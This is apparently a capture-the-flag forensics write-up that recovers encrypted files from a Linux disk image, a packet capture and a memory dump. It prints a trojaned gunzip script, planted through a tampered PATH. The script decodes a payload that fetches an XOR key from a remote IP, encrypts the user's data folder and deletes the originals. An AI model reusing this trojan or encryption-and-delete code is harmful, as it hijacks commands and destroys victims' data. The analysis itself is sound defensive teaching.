


# Investigator Alligator [40 Solves]

## Description



> mmJoSchmoTechCo's server got hit! The folder containing their super duper important company secrets is all locked up. Luckily, the sysadmin was smart enough to be capturing the network traffic and take a memory sample when the whole ordeal went down.
>
> The victim user, in a flurry of blind panic, also typed something after the damage was already done. We have an image of the disk after the event. Can you recover their files and find out what the victim typed?
>
> Note: the malware contained is rather innocuous, but it's still a bad idea to run untrusted programs off the Internet. Please don't do that.
>
> If your download speeds for the attachment are really slow, try our [mirror download](https://cdn.2024.irisc.tf/investigator-alligator.gz).
>
> `investigator-alligator.gz`
>
> By: skatw

## Short Solution

- Flag Part 1: Tampered gunzip script, encrypted file, the XOR encryption key is recorded in a packet capture
- Flag Part 2: Memory Forensics

## Initial Analysis

This challenge described the following:

> Can you recover their files and find out what the victim typed?

It seems like there is a need to restore something and find what the victim typed.

```console
$ gunzip -d investigator-alligator.gz
$ file investigator-alligator
investigator-alligator: Linux rev 1.0 ext4 filesystem data, UUID=35fa8404-f9cc-45be-b6a5-22351ef2f486 (errors) (extents) (64bit) (large files) (huge files)

$ mkdir mnt; mount investigator-alligator mnt; cd mnt

$ tree -L 1
.
├── bin -> usr/bin
├── boot
├── cdrom
├── dev
├── etc
├── home
├── lib -> usr/lib
├── lib32 -> usr/lib32
├── lib64 -> usr/lib64
├── libx32 -> usr/libx32
├── lost+found
├── media
├── mnt
├── opt
├── proc
├── root
├── run
├── sbin -> usr/sbin
├── snap
├── srv
├── swapfile
├── sys
├── tmp
├── usr
└── var

25 directories, 1 file
```

The investigator-alligator file is filesystem data so mounted it, the Linux file system appreared.
By taking a close look at the directory and file, stephen's user directory seemed suspicious.

## Part1: Recover their files

```console
$ cd home/stephen

$ ls -la
total 8248
drwxr-x--- 3 1003 1003    4096 Jan  7 12:57 .
drwxr-xr-x 7 root root    4096 Jan  4 06:05 ..
-rw------- 1 1003 1003     465 Jan  4 06:17 .bash_history
-rw-r--r-- 1 1003 1003     220 Jan  7  2022 .bash_logout
-rw-r--r-- 1 1003 1003    3820 Jan  4 06:12 .bashrc
drwx------ 3 1003 1003    4096 Jan  4 06:09 .cache
-rw-rw-r-- 1 1003 1003 8388608 Jan  4 06:13 encrypted.img
-rw-rw-r-- 1 1003 1003      46 Jan  4 06:12 IMPORTANT-FROM-JO.txt.gz
-rw-r--r-- 1 1003 1003     807 Jan  7  2022 .profile
-rwxrwxr-x 1 1003 1003     486 Jan  4 06:13 rswenc.py
-rw-r--r-- 1 1003 1003       0 Jan  4 06:13 .sudo_as_admin_successful
-rwxrwxr-x 1 1003 1003   16136 Jan  4 06:13 taunt
-rw------- 1 1003 1003    2983 Jan  4 06:12 .viminfo


$ cat .bash_history
ls
mv super_duper_important_info.png data/
cd data/
shasum super_duper_important_info.png
file super_duper_important_info.png
cd ../
exit
ls
cd .cache/
mkdir gunzip/
cd gunzip/
vim gunzip
vim ~/.bashrc
exit
which gunzip
vim .bashrc
source .bashrc
which gunzip
printenv
cd .cache/gunzip/
ls
chmod +x gunzip
which gunzip
cd
ls
vim IMPORTANT-FROM-JO.txt
gzip IMPORTANT-FROM-JO.txt
ls
exit
ls
file IMPORTANT-FROM-JO.txt.gz
gunzip IMPORTANT-FROM-JO.txt.gz
exit

$ diff .bashrc ../../etc/skel/.bashrc
118,119d117
<
< export PATH="/home/stephen/.cache/gunzip:$PATH"

$ file .cache/gunzip/gunzip
.cache/gunzip/gunzip: POSIX shell script, ASCII text executable, with very long lines (701)

$ diff .cache/gunzip/gunzip ../../bin/gunzip
57,75c57
< TARGET="/home/stephen/data/"
<
< echo "IyEvdXNyL2Jpbi9lbnYgcHl0aG9uMwoKaW1wb3J0IHJhbmRvbQppbXBvcnQgc29ja2V0CmltcG9ydCBzeXMKaW1wb3J0IHRpbWUKCmZfaWYgPSBzeXMuYXJndlsxXQpmX29mID0gc3lzLmFyZ3ZbMl0KCnMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoIjE0OS4yOC4xNC4xMzUiLCA5MjgxKSkKCnNlZWQgPSBzLnJlY3YoMTAyNCkuc3RyaXAoKQpzLmNsb3NlKCkKCnJhbmRvbS5zZWVkKHNlZWQpCgp3aXRoIG9wZW4oZl9pZiwgInJiIikgYXMgZjoKCWRhdGEgPSBmLnJlYWQoKQoKc3RyZWFtID0gcmFuZG9tLnJhbmRieXRlcyhsZW4oZGF0YSkpCmVuY3J5cHRlZCA9IGJ5dGVhcnJheSgpCgpmb3IgaSBpbiByYW5nZShsZW4oZGF0YSkpOgoJZW5jcnlwdGVkLmFwcGVuZChkYXRhW2ldIF4gc3RyZWFtW2ldKQoKd2l0aCBvcGVuKGZfb2YsICJ3YiIpIGFzIGY6CglmLndyaXRlKGVuY3J5cHRlZCkK" | base64 -d > rswenc.py && chmod +x rswenc.py
< dd if=/dev/zero of=data.img bs=1M count=8 status=none
< mkfs.ext4 data.img -q
< mkdir mtpt/
< sudo mount -o loop data.img mtpt/
< sudo cp -r $TARGET mtpt/
< sudo umount mtpt/
< sudo rm -rf mtpt/
< ./rswenc.py data.img encrypted.img
< rm data.img
< rm -rf $TARGET
< echo "I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDx1bmlzdGQuaD4KCmludCBtYWluKCkKewoJY2hhciBidWZmZXJbMTAyNF0gPSB7MH07CgoJcHV0cygiWU9VJ1ZFIEJFRU4gUFdORUQhIik7CglwdXRzKCJXSEFUIERPIFlPVSBTQVkgSU4gUkVTUE9OU0U/Iik7CglmZ2V0cyhidWZmZXIsIDEwMjQsIHN0ZGluKTsKCglwdXRzKCJNRUFOV0hJTEUsIFRIRSBQV05FUiBHT0VTIHp6ei4uLiIpOwoJc2xlZXAoOTk5OSk7Cn0K" | base64 -d > taunt.c
< gcc taunt.c -o taunt
< rm taunt.c
< ./taunt
<
< #exec gzip -d "$@"
---
> exec gzip -d "$@"
```

The stephen's .bashrc was tampered, and .cache/gunzip directory added to the PATH.
The stephen's gunzip script is a modified version of the original gunzip script, with what appears to have malicious code added.

rswenc.py

```python
#!/usr/bin/env python3

import random
import socket
import sys
import time

f_if = sys.argv[1]
f_of = sys.argv[2]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))

seed = s.recv(1024).strip()
s.close()

random.seed(seed)

with open(f_if, "rb") as f:
	data = f.read()

stream = random.randbytes(len(data))
encrypted = bytearray()

for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])

with open(f_of, "wb") as f:
	f.write(encrypted)
```

rswenc.py is a encription script that encrypts the first argument file and outputs it to the second argument file.
It's XOR encryption and its encription key is a received stuff from 149.28.14.135:9281.
This challenge described that the network traffic is captured so I guess that the encription key is recorded in its packet captures.
It allows to decrypt the encrypted.img file.

In .cache/gunzip/gunzip, there are three noteworthy files: super_duper_important_info.png, data.img, and encrypted.img.
The super_duper_important_info.png is added to the loopback device of data.img and encrypted it to encrypted.img by the rswenc.py script.

taunt.c

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	char buffer[1024] = {0};

	puts("YOU'VE BEEN PWNED!");
	puts("WHAT DO YOU SAY IN RESPONSE?");
	fgets(buffer, 1024, stdin);

	puts("MEANWHILE, THE PWNER GOES zzz...");
	sleep(9999);
}
```

The taunt.c is a sleep script that does nothing else.
It is executed through the gunzip command, likely to mimic the execution time of the gunzip command.

The network packet capture is located at /root directory.

```console
$ cd ../../root

$ ls -la
total 40
drwx------  7 root root 4096 Jan  4 06:16 .
drwxr-xr-x 20 root root 4096 Jan  4 05:58 ..
-rw-------  1 root root  945 Jan  4 06:16 .bash_history
-rw-r--r--  1 root root 3169 Dec 12 08:31 .bashrc
drwx------  2 root root 4096 Jan  4 05:58 .cache
drwxr-xr-x  2 root root 4096 Jan  4 06:06 capture
drwxr-xr-x  5 root root 4096 Jan  4 06:00 LiME
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  3 root root 4096 Dec 12 08:31 snap
drwx------  2 root root 4096 Dec 12 08:31 .ssh

$ file capture/network
capture/network: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

Opening the packet capture with Wireshark and filter a packet by `ip.host == 149.28.14.135 && tcp.port == 9281`, I got the encryption key.



> eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai

I scripted decrypt.py and executed it:

decrypt.py

```python
#!/usr/bin/env python3

import random

f_if = "encrypted.img"
f_of = "data.img"
seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

random.seed(seed)

with open(f_if, "rb") as f:
    data = f.read()

stream = random.randbytes(len(data))
decrypted = bytearray()

for i in range(len(data)):
    decrypted.append(data[i] ^ stream[i])

with open(f_of, "wb") as f:
    f.write(decrypted)
```

Result:

```console
$ file encrypted.img
encrypted.img: data

$ python3 decrypt.py

$ file data.img
data.img: Linux rev 1.0 ext4 filesystem data, UUID=be1fa061-b979-4315-a190-f8c01fc95702 (extents) (64bit) (large files) (huge files)
```

Got data.img so mount to reveal it.

```console
$ mkdir mnt2; mount data.img mnt2; cd mnt2

$ tree -a .
.
├── data
│   └── super_duper_important_info.png
└── lost+found

3 directories, 1 file
```


Got `irisctf{y0ure_a_r3al_m4ster_det3`.

## Part2: find out what the victim typed?

```console
$ cd LiME

$ git remote -v
origin  https://github.com/504ensicsLabs/LiME (fetch)
origin  https://github.com/504ensicsLabs/LiME (push)
```

LiME is Linux Memory Extractor so it seems the Part2 is memory forensics.
It would be better to use [Volatility](https://github.com/volatilityfoundation/volatility3), but I took a shortcut.

```console
$ git status
On branch master
Your branch is up to date with 'origin/master'.

Untracked files:
  (use "git add <file>..." to include in what will be committed)
        src/lime.mod
        src/sample.mem

nothing added to commit but untracked files present (use "git add" to track)

$ file src/sample.mem
src/sample.mem: data
```

A memory dump is located src/sample.mem.
I assume that `}` is included to the second part flag so I'll output a string that ends with `}`.

```console
$ strings -a -n 5 -t x src/sample.mem | grep '}$'
...
4be8860 ctive_ty_f0r_s4vs4v1ng_0ur_d4ta}
...
```

Got `ctive_ty_f0r_s4vs4v1ng_0ur_d4ta}`.
The concatenation of it and part 1 reveals the `detective` word (`det3ctive` in leet).
This is the correct flag.

## Flag

irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta}
